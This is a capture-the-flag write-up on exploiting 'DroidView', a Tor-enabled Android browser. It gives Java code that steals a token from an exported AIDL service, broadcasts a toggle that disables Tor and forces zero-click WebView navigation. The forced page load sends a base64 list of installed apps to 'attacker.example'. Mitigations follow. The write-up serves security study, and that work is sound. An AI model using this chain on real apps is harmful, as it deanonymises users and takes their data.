


*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

## **DroidView: From “Private Browser” To Real Exposure**

This challenge set out to prove that a Tor‑enabled “private browser” can be silently turned against its users and forced to reveal their real identity with zero interaction, and it delivered exactly that through a clean abuse chain: exported `AIDL` service → token theft → dynamic receiver timing → forced navigation in `WebView`, all on a non‑rooted device with no runtime permissions, and all within the victim app’s own surface, as required, which makes the privacy breach undeniable to the end user’s threat model.

### Initial Discovery

The app identifies itself as a Tor‑integrated WebView browser, exposes a custom action to load URLs, and wires a security toggle behind an intent path that looks “protected” by a token, which immediately drew attention to how that token is minted, stored, and verified.

Key high‑level observations during manifest and code review (POV notes):

- `TokenService` is exported and implements an `AIDL` stub that returns the “current” security token to any binder client without permission checks.
- `MainActivity` registers the security toggle `BroadcastReceiver` dynamically in `onCreate`, so external broadcasts only land when the activity is live, which implies timing matters for a headless attack.
- `LOAD_URL` is handled as an `Activity` intent (`onNewIntent`/`handleIntent`), not as a broadcast, so redirection must use `startActivity` with the custom action, not `sendBroadcast`.
- `WebView` has JavaScript enabled and proceeds on SSL errors, while file access is disabled and no `JavascriptInterface` is exposed, shaping what data can be reasonably exfiltrated from the attacker page.

---

### Understanding the Moving Parts

Before building payloads, I mapped the security flow and where control transitions occur.

#### Token lifecycle (how “the key” is made)

- A random 32‑char token is generated, then encrypted with `AES‑128‑CBC` using the first 16 bytes of a hardcoded string, with a random IV prepended, and the result is `Base64`‑encoded and stored in a `SQLite` table.
- Validation simply compares the stored encrypted blob to the provided value; there is no decryption step in validation, which means stealing the encrypted blob is sufficient to authenticate disabling security.

#### Toggle path (how Tor is switched)

- Disabling security via the toggle receiver requires a valid token, but the receiver is only registered after MainActivity starts, so external attempts must ensure the activity is up.
- When disabled, the app clears proxy overrides, unregisters Tor status listeners, resets caches/history, and routes WebView traffic directly, thus exposing the device’s real IP on subsequent loads.

#### Navigation path (how we force the victim to our page)

- The app honors `ACTION_LOAD_URL` in `onNewIntent`/`handleIntent` and, for external requests with security disabled, immediately calls `loadUrl()` without user input, which is the zero‑click we need for redirection.

---

### Attack Plan

My plan was to keep everything inside the victim’s own surfaces, prove the Tor control can be subverted without UI, and then demonstrate deanonymization solely through WebView navigation to an attacker page.

1) Steal the token via the exported `AIDL` `TokenService`, which returns the encrypted blob the app itself later compares against.
2) Ensure the dynamic receiver is actually alive by starting `MainActivity`, then broadcast the security toggle with the stolen token to flip Tor off.
3) Start the same activity again with `ACTION_LOAD_URL` pointing to my server so the app’s `WebView` loads my page directly, no taps required.
4) On the attacker page, use JavaScript to collect real IP and device fingerprint and exfiltrate to a controlled endpoint; optionally, have the POC app collect installed packages (via `PackageManager`) and pass them along as a URL param to keep exfiltration “via WebView.”

---

### The Exploit Chain

Below are the essential snippets I used, annotated from my POV as I iterated and troubleshot.

### Step 1: Token Theft (AIDL bind + getSecurityToken)

- Create `aidl/com/eightksec/droidview/ITokenService.aidl` mirroring the target signature, then bind and call `getSecurityToken()`, logging the returned `Base64` blob.

```java
// AIDL
package com.eightksec.droidview;
interface ITokenService {
  String getSecurityToken();
  boolean disableSecurity();
}
```

```java
// Bind & steal (MainActivity of POC)
Intent svc = new Intent("com.eightksec.droidview.ITokenService");
svc.setPackage("com.eightksec.droidview");
bindService(svc, conn, BIND_AUTO_CREATE);
// onServiceConnected → ITokenService.Stub.asInterface(binder).getSecurityToken()
```

### Step 2: Make the receiver “hear” us

- Because the toggle receiver is registered dynamically in `onCreate` and not static, I first start the victim `MainActivity` to ensure it registers before I send the disabling broadcast.

```java
Intent open = new Intent();
open.setComponent(new ComponentName("com.eightksec.droidview", "com.eightksec.droidview.MainActivity"));
open.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(open);
// wait ~2s for receiver registration
```

### Step 3: Disable Tor

- With `MainActivity` active, broadcasting `ACTION_TOGGLE_SECURITY` with `enable_security=false` and the stolen encrypted token flips the browser into direct-network mode.

```java
Intent off = new Intent("com.eightksec.droidview.TOGGLE_SECURITY");
off.setPackage("com.eightksec.droidview");
off.putExtra("security_token", stolen);
off.putExtra("enable_security", false);
sendBroadcast(off);
// wait ~3s for proxy clearing & service teardown
```

### Step 4: Zero‑click redirection

- `LOAD_URL` is handled by the activity, so using `startActivity` with the custom action and `EXTRA_URL` forces the `WebView` to load my page without the user pressing Go.

```java
String exfil = "https://attacker.example/exploit.html?apps=" + base64Apps;
Intent nav = new Intent("com.eightksec.droidview.LOAD_URL");
nav.setPackage("com.eightksec.droidview");
nav.putExtra("url", exfil);
nav.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(nav);
```

---

### What the attacker page steals

The `WebView`’s JavaScript sandbox is enough to collect the victim’s real IP (since Tor is off), user‑agent, screen metrics, timezone, language, and other fingerprintable properties, which already meets the deanonymization objective since `Javascript` is enabled in the `WebView`

```java
settings.setJavaScriptEnabled(true);
```

:::note
I was too lazy to setup my own server to exfiltrate the data :"D
:::




---

### Ummmm Why was the app vulnerable ?

- The exported `AIDL` `TokenService` returns the live security token to any client, with no signature/permission protection, enabling cross‑app theft on non‑rooted devices.
- Token validation compares encrypted strings directly, so the stolen `Base64` blob is itself the credential; nothing needs to be cracked or decrypted.
- The toggle receiver being dynamic isn’t a defense—starting the activity is trivial, after which the broadcast lands reliably and security is disabled.
- `ACTION_LOAD_URL` is an activity intent that auto‑loads external URLs when security is off and the intent is external, enabling zero‑click redirection to an attacker server.

---

### what broke and how I fixed it :"D

- AIDL errors: `Gradle` needed `buildFeatures.aidl=true` and the exact `AIDL` path to match the target package, or the compiler rejected the stub.
- `compileSdk` mismatch: `androidx.activity 1.11.0` required `compileSdk 36`, so I bumped the project’s `compileSdk` accordingly without changing `targetSdk`.
- Bind failures on Android 11+: fixed by adding `&lt;queries&gt;` to declare visibility of `com.eightksec.droidview`.
- Broadcast “doing nothing”: realized the toggle receiver is dynamic; launching `MainActivity` before broadcasting solved it.
- Redirection “not firing”: `LOAD_URL` is not a broadcast; changing `sendBroadcast` to `startActivity` with the action fixed navigation.

---

### Mitigations - developers please study security :(

- Lock down `TokenService` with signature‑level permission, or drop export entirely; never expose `getSecurityToken()` to untrusted callers.
- Validate tokens server‑style: don’t compare stored encrypted blobs; derive short‑lived capability tokens, bind to caller identity, and verify provenance.
- Make the security toggle internal‑only, or guard it with an explicit permission and receiver permission checks, and register it statically only if strictly necessary.

---
